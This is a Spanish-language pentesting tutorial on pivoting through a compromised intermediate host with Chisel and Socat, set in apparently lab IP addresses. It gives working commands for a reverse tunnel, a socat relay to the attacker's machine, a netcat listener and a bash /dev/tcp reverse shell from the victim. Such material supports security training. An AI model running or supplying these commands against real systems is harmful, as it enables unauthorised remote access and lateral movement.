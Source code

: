 # Pivoting Avanzado con Socat

## Introducción

Cuando obtenemos **RCE en una máquina dentro de una red interna** que no tiene acceso directo hacia nuestro host, necesitamos técnicas de **pivoting** para:

1. Alcanzar la máquina víctima desde nuestro host.
2. Redirigir tráfico desde la víctima hacia nuestro host, atravesando máquinas intermedias.

**Escenario:**

* **Máquina víctima:** `172.19.0.4` (webshell).
* **Máquina intermedia:** `172.19.0.3` (root, con Chisel cliente).
* **Host local atacante:** `10.10.14.3` (Chisel servidor).

Objetivo: obtener una **reverse shell desde la víctima hacia nuestro host**, atravesando la máquina intermedia.

---

## Paso 1: Chisel como túnel reverso

Chisel permite crear un **túnel TCP reverso** para exponer servicios internos de la red hacia nuestro host.

### Configuración:

**En el host local (atacante):**

```bash
sudo ./chisel server --reverse -p 1234
```

* `--reverse`: indica que aceptará conexiones reversas.
* `-p 1234`: puerto del servidor en el host local.

**En la máquina intermedia (`172.19.0.3`):**

```bash
./chisel client 10.10.14.3:1234 R:8080:172.19.0.3:80
```

* `R:8080:172.19.0.3:80`: crea un **reverse port forward**. Todo lo que llegue al puerto `8080` del host local será redirigido al puerto `80` de la intermedia.
* Requiere **root** si el puerto de destino es menor a `1024` (ej. `R:80`).

> Con esto, ya tenemos conectividad desde nuestro host hacia la red interna a través de la intermedia.

---

## Paso 2: Socat como pivoting dinámico

Aunque Chisel nos da conectividad, no podemos recibir **reverse shells directas** de la víctima si no hay acceso hacia nuestro host. Aquí entra **Socat**.

### Preparación de Socat (Máquina Intermedia Pwned)

1. Descargar un binario estático de Socat en la **máquina intermedia**:

```bash
wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
```

2. Configurar el pivoting:

```bash
./socat TCP-LISTEN:1111,fork TCP:10.10.14.3:2222 &
```

**Explicación del comando:**

* `TCP-LISTEN:1111,fork`: escucha conexiones entrantes en el puerto `1111` de la intermedia.
* `TCP:10.10.14.3:2222`: reenvía todo el tráfico hacia nuestro host local en el puerto `2222`.
* `&`: ejecuta Socat en background.

> Ahora cualquier conexión enviada a la intermedia en el puerto `1111` se reenviará automáticamente a nuestro listener en `2222`.

---

## Paso 3: Reverse shell desde la víctima

1. Abrimos un listener en nuestro host local:

```bash
nc -lvnp 2222
```

2. En la víctima (`172.19.0.4`), lanzamos la reverse shell hacia la máquina intermedia:

```bash
bash -i >& /dev/tcp/172.19.0.3/1111 0>&1
```

**Flujo de la conexión:**

```
[Victima 172.19.0.4] ---> 1111 ---> [Socat en Intermedia 172.19.0.3] ---> 2222 ---> [Host 10.10.14.3]
```

* La reverse shell se conecta a la intermedia en `1111`.
* Socat reenvía la conexión hacia nuestro host en `2222`.
* Nuestro listener `nc` recibe la shell y nos da acceso interactivo a la víctima.

---

## Paso 4: Consideraciones

* **Root en la intermedia:** necesario para puertos < 1024.
* **Socat + Chisel:** permiten pivoting completo y dinámico, incluso en redes segmentadas.
* Esta técnica es muy útil en **post-explotación y movimiento lateral**, cuando necesitamos acceder a máquinas que no tienen conexión directa hacia nuestro host.
* Siempre mantener **background processes** bajo control para evitar dejar túneles abiertos accidentalmente.
